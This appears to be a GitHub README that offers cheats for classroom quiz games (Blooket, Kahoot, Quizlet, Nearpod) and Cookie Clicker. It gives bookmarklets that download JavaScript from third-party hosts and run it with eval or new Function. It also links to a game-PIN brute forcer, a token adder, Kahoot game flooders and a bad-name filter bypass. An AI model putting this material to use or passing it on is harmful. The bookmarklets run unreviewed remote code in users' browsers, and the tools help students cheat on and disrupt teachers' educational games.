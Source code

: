 # Blooket Hacks and more!
These are hacks for blooket. There are hacks such as give tokens for buying blooks (sadly only 500 per day), and cheats in-game like infinite gold in tower of doom or gold rush! I took cheats from another github repo, revised the code a bit. (There are other hacks if you scroll down)

**Scroll down for video tutorial on how to make bookmarklets**

## Mod Menu:
Mod Menu for blooket (Drag the link below to your bookmarks bar):
```
javascript:fetch('https://ieatppplyum.github.io/blooket-hack/index.js').then(r=>r.text()).then(t=>(new Function(t))())
```

To make the mod menu appear click on "Add Injectable", And paste the URLS in that are listed below.

Injectable URL 1: `https://helloieat.github.io/injectables/myrayuo.js` 

Injectable URL 2: `https://helloieat.github.io/injectables/is%20lit.js` 

## Bookmarklets:
```
Blooket hacks can be found here https://github.com/helloieat/blooket-hack-1
```

Bookmarklet tutorial:
https://streamable.com/t4u7i7

1. Make a bookmark (the star on the right side of the url bar if you are using chrome)
2. Click on more at the bottom left corner
3. Delete everything in the url box
4. Type `javascript:`
5. Paste in the code

## Blooket BruteForcer:
BLOOKET FIXED THE JOIN API SO IT ONLY GUESSES GAME PINS. (its super accurate though, only when a lot of games are being hosted).
```
It can be found here https://replit.com/@mikeylmao/Blooket-pass-finder
```

## 24hr Token Adder:
This will automatically gives your account 500 tokens and 300 exp daily
```
It can be found here https://replit.com/@mikeylmao/24hr-token-adder
```

# Other Hacks (Extra)
Mostly websites..

## Kahoot Hacks:
```
[Kaheet] https://pxtrez.com/
[Flooder] https://kaspammer.glitch.me/
[Flooder V2] https://replit.com/@mikeylmao/Kahoot-flood-2
[Kahoot Client] https://a8998w89329w09e09we.herokuapp.com/
[Kahoot Client V2] https://kahot.glitch.me/
```

### Bookmarklets (Click on these before you enter a games ID)

Kahoot Smasher/Flooder (Drag the link below to your bookmarks bar):
```
javascript:fetch('https://thatfrueddued.github.io/kahoot-smasher/Kahoot.js').then(function(response){response.text().then(function(text){eval(text);});});
```

Bad Name Filter Bypass (Drag the link below to your bookmarks bar):
```
javascript:fetch('https://thatfrueddued.github.io/kahoot-smasher/BadNameFilterBypass.js').then(function(response){response.text().then(function(text){eval(text);});});
```

Kahoot Correct Answers (Drag the link below to your bookmarks bar):
```
javascript:fetch("https://raw.githubusercontent.com/pxtrez/kaheet/main/dist/bundle.js" ).then((r) => r.text().then((t) => eval(t)));
```

## Quizlet Hacks:
Works for micromatch and other gamemodes (Drag the link below to your bookmarks bar):
```
javascript:(function()%7B(function() %7Blet x %3D document.createElement("script")%3Bx.src %3D "https%3A%2F%2Fcdn.jsdelivr.net%2Fgh%2FSnowLord7%2Fquizlet%40master%2Findex.js"%3Bx.onload %3D function () %7B x.remove()%3B %7D%3Bdocument.body.appendChild(x)%3B%7D)()%7D)()
```

## Cookie Clicker Hacks:
Shows a mod menu on your screen

Mod Menu V1 (Drag the link below to your bookmarks bar):
```
javascript:(function(){Game.LoadMod('https://rawgit.com/Giovani-Freitag/cookie-clicker-farm/master/cookieClickerFarm.js');})();
```

Mod Menu V2 (Drag the link below to your bookmarks bar):
```
javascript:Game.OpenSesame()
```
Website to play Cookie Clicker if it's blocked: https://ozh.github.io/cookieclicker/

## Nearpod Hacks:
Just finds codes

Nearpod code finder
```
https://replit.com/@milestashaun/nearpod-code-finder
```

## Walmart Version Of Google Classroom:
Sign up and add people to it

Code: rmxIWa
```
https://our-gclassroom.netlify.app/
```

#### Happy hacking :)
